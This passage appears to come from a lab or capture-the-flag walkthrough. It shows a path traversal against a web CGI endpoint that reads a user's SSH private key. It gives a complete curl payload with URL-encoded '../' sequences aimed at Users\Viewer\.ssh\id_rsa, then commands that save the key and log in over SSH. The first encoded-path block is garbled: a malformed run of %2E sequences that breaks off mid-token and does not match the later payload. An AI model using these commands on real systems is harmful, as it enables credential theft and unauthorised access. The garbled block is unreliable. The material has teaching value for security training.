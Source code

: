 Figure 11. CyberChef Tool

Our URL encoded path would be:
```sh
%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2E%2E%2E%2E%2E%2E%2F%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2F%2E%2F%2E%2E%2F%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2E%2
```

And putting it all together, we created the payload:
```sh
curl “http://192.168.150.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2FUsers%5CViewer%5C%2Essh%5Cid%5Frsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=”
```

![image](Picture12.png)

Figure 12. id_rsa of the Viewer user.

And voilà, have us the ssh key for the Viewer user! Now you have to save the output to the id_rsa file:
```sh
curl "http://192.168.150.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2FUsers%5CViewer%5C%2Essh%5Cid%5Frsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=" > id_rsa
chmod 600 id_rsa
ssh -i id_rsa Viewer@192.168.150.179
```
